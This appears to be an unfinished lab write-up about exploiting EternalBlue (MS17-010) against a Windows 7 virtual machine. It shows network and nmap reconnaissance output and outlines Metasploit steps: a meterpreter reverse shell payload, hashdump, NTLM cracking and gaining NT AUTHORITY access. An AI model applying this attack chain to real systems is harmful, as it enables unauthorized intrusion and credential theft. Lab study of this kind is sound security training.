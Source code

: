 # **EternalBlue Exploitation | MS17-010 | AL**

The SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.

## **Identifying target**

**Target machine:**
windows cmd confirmation with ipconfig 192.168.64.131

**Confirming the target machine on local network**
sudo arp-scan -l

    root@kali:/home/kali# arp-scan -l
    Interface: eth0, type: EN10MB, MAC: 00:0c:29:e4:4b:56, IPv4: 192.168.64.129
    Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
    192.168.64.2    00:50:56:f7:bd:1d       VMware, Inc.
    192.168.64.1    00:50:56:c0:00:08       VMware, Inc.
    192.168.64.131  00:0c:29:9c:4b:83       VMware, Inc.
    192.168.64.254  00:50:56:e1:67:05       VMware, Inc.


## **Test target connecitvity:**
ping 192.168.64.131

    ping 192.168.64.131. 29 packets transmitted 29 received, 0% packet loss.

## **Target scanning using nmap:** 
nmap -sC -sV -T4 --top-ports 1000 192.168.64.131 
      
      kali@kali:~$ nmap -sC -sV -T4 --top-ports 1000 192.168.64.131
      Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-26 08:42 EDT
      Nmap scan report for 192.168.64.131
      Host is up (0.00028s latency).
      Not shown: 992 closed ports
      PORT      STATE SERVICE      VERSION
      135/tcp   open  msrpc        Microsoft Windows RPC
      139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      49152/tcp open  msrpc        Microsoft Windows RPC
      49153/tcp open  msrpc        Microsoft Windows RPC
      49154/tcp open  msrpc        Microsoft Windows RPC
      49155/tcp open  msrpc        Microsoft Windows RPC
      49156/tcp open  msrpc        Microsoft Windows RPC
      Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows
      
      Host script results:
      |_clock-skew: mean: 16h19m58s, deviation: 2h18m33s, median: 14h59m58s
      |_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:9c:4b:83 (VMware)
      | smb-os-discovery: 
      |   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1
      |   Computer name: WIN-845Q99OO4PP
      |   NetBIOS computer name: WIN-845Q99OO4PP\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2024-09-26T23:43:24-04:00
      | smb-security-mode: 
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      | smb2-security-mode: 
      |   2.02: 
      |_    Message signing enabled but not required
      | smb2-time: 
      |   date: 2024-09-27T03:43:24
      |_  start_date: 2024-09-27T03:11:45
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 65.81 seconds

## **Vulnerability scanning using nmap:**
nmap --script vuln --top-ports 1000 192.168.64.131 
  
      Host script results:
      |_smb-vuln-ms10-054: false
      |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
      | smb-vuln-ms17-010: 
      |   VULNERABLE:
      |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
      |     State: VULNERABLE
      |     IDs:  CVE:CVE-2017-0143
      |     Risk factor: HIGH
      |       A critical remote code execution vulnerability exists in Microsoft SMBv1
      |        servers (ms17-010).
      |           
      |     Disclosure date: 2017-03-14
      |     References:
      |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
      |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
      |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
      
      Nmap done: 1 IP address (1 host up) scanned in 126.35 seconds


# **TBC here onwards.** 

Research all ports, along with the critical finding in scan number 2.

## **Exploits for Port 135/tcp (Microsoft Windows RPC)**
Port 135 is used by the RPC Endpoint Mapper. Historically, there have been vulnerabilities associated with RPC services, notably:

MS03-026 (CVE-2003-0352): A buffer overflow in the RPC DCOM interface allowing remote code execution.
MS03-039 (CVE-2003-0715): Similar to MS03-026 with additional fixes.

However, these vulnerabilities affect older Windows versions like Windows XP and Windows 2000. Windows 7 SP1 is not affected by these specific vulnerabilities, and they were patched long ago.

## **Exploits for Port 139/tcp (NetBIOS Session Service)**
Port 139 is used for NetBIOS Session Service, which facilitates file and printer sharing over NetBIOS.

Historical Vulnerabilities:
Information Disclosure: Null session attacks could allow an attacker to enumerate users, shares, and other information.
SMB Relay Attacks: Exploiting SMB to relay authentication and gain unauthorized access.
However, these are typically not direct remote code execution vulnerabilities and often require additional conditions or misconfigurations.

    look for auxiliary verison
    check if target ip is vulnerable

    use 3
    set payload to win7/tcp/meterpreter version
    rhost target ip
    run
    
    meterpreter shell access
    sysinfo
    hashdump
    
    crack ntml password
    conduct screenshot
    
    gain nt authority access

#**Manual Exploitation With Reverse TCP Shell**
